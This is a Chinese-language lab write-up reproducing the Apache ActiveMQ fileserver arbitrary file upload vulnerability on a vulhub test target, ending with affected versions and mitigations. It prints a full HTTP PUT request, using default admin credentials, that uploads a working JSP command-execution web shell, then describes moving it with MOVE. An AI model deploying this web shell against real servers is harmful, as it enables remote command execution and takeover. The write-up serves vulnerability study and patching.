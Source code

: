 #### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中，ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37



```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161

![1](ActiveMQ任意文件上传漏洞/1.png)

![2](ActiveMQ任意文件上传漏洞/2.png)

登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），

![3](ActiveMQ任意文件上传漏洞/3.png)
```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>

```

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp



![4](ActiveMQ任意文件上传漏洞/4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](ActiveMQ任意文件上传漏洞/5.png)

![6](ActiveMQ任意文件上传漏洞/6.png)

 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能



![7](ActiveMQ任意文件上传漏洞/7.png)
